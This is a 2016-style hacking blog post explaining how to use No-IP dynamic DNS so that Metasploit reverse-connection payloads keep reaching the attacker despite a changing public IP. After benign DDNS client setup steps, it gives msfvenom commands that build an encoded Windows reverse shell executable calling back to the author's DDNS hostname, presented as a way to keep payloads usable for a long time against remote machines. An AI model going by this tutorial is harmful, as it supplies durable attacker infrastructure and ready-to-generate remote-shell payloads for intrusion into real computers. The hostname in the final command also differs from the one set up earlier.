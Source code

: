 ```yaml
---
layout: post
comments: true
date: 'Sun Mar 06 2016 13:58:02 GMT+0530 (India Standard Time)'
slug: use-ddns-to-deal-with-your-dynamic-public-ip
title: Use DDNS to Deal with Your Dynamic Public IP
tags:
  - Hacking
  - DDNS
  - Metasploit
published: true
---
```


Many of us have an internet connection with dynamic public IP. That poses some problems if you want to use that connection to host a website, or maybe for hackers like us, to hack using reverse connection payloads. I'm going to discuss in this post how you can overcome that using Dynamic DNS or DDNS. But I'm getting ahead of myself, so let me start by explaining what is public IP and what are some problems you can encounter if you have a dynamic one.


## Understanding Dynamic Public IP Address


Public IP is the IP that's visible to machines outside your local network. For example if two or more machines are connected through a router (maybe through WiFi) to the internet, then the machines are in a local network, as well as both of them are connected to the Internet. Each of them has a locally unique private IP address, not globally. For connecting to the Internet they use the router's public IP.

IP addresses can be static or dynamic. Most of the ISPs provide dynamic public IP, that means it changes from time to time, contrary to the static one, which remains fixed. You can check what's your public IP by googling 'What is my IP', Google will tell you.

Having a dynamic IP address is a hindrance to hacking using reverse connection payloads. Reverse connection payloads, such as _android/meterpreter/reverse_tcp_, store the host IP address, i.e. the IP address of the attacker machine. When it gets executed, it connects back to the host machine by the reference of that host IP. But as dynamic IP keeps changing from time to time, you won't be able to use a payload for a long time because  after some time the IP stored inside it won't point to your machine anymore. That's a problem. A major one. This is where DDNS comes in.


## Dynamic DNS aka DDNS to the Rescue


We all know what DNS or Domain Naming System is, it's the system which binds an IP to a domain name. When you try to connect to a domain name, for example opening www.google.com on a  browser, the request first goes to a DNS server, which resolves the domain name into an IP, and then the browser gets the Google homepage from that IP. Similarly you can get a domain name for your machine and put that domain name in the place of HOST IP address in your payload. But the problem of your IP being dynamic still remains.

Here DDNS comes to the rescue. DDNS servers update the DNS record of your machine continuously, so that even for dynamic IP machines the domain name resolves to the correct IP, always.


## Setting up DDNS using No-IP

There are many DDNS providers, I'm going to use No-IP which is one of them.

### Step 1: Creating a No-IP account

Head to https://www.noip.com and create a free account there.

### Step 2: Adding a Hostname in No-IP

When you get to the dashboard, go to Dynamic DNS -> Hostnames and add a hostname of your choice from there. You can also choose a domain name from a list there. The address you will get is hostname.domainname. Such as I chose the default domain name ddns.com and the hostname I entered is skulltech. So the address I got is 'skulltech.ddns.com'. Refer to the screenshots below for reference.

![step-1](/img/posts/step-11.png)
![step-2](/img/posts/step-21.png)


### Step 3: Install the Dynamic DNS Update Client


Now you'll need to install a program on your computer and set it up. So that it connects to No-IP server frequently and updates the DNS record. Download the update client from https://www.noip.com/download . It's a tar.gz archive, extract it using the following command
```console
tar -xzvf noip-duc-linux.tar.gz
```

![screenshot-from-2016-12-18-14-24-36](/img/posts/screenshot-from-2016-12-18-14-24-36.png)


After that change working directory to the newly extracted folder and run the following command to install the No-IP client.

```console
make install
```

![screenshot-from-2016-12-18-14-38-06](/img/posts/screenshot-from-2016-12-18-14-38-06.png)


After that the program will ask for your No-IP username and password.


### Step 4: Configure the Client and Run It


Run the following command to launch the configuration wizard of the No-IP client. It will ask you for your credentials, as well as which hostnames you want to update. Select the hostname (or hostnames) that you want to associate with this computer in that step.

```console
noip2 -C
```

When you are done with the configuration, just run **noip2** in the terminal to start the client, it will run in the background and keep updating your DNS record.

```console
noip2
```

![screenshot-from-2016-12-18-14-49-56](/img/posts/screenshot-from-2016-12-18-14-49-56.png)


## Using DDNS hostname in Payloads


You can create a basic reverse shell payload for windows and get a shell on a remote computer on running it in that computer. Refer to this tutorial by Offensive Security for that, I won't be going into details how to do that. Assuming that you already know how to create these payloads using _msfvenom_ (if you don't check out this tutorial), I'll show you how you can use your DDNS hostname there.

Generally we run a command like this to generate the payload. Here LHOST is the address of the our local machine, in the following example it's _192.168.1.101_

```console
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=192.168.1.101 LPORT=3333 -b "\x00" -e x86/shikata_ga_nai -f exe -o /tmp/1.exe
```

Now that we have a DDNS hostname, pass that as LHOST to msfvenom instead of your IP. So now the command will be

```console
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=skulltech.ddn.com LPORT=3333 -b "\x00" -e x86/shikata_ga_nai -f exe -o /tmp/1.exe
```

Feel free to leave a comment if you face any problem. Happy Hacking! :)
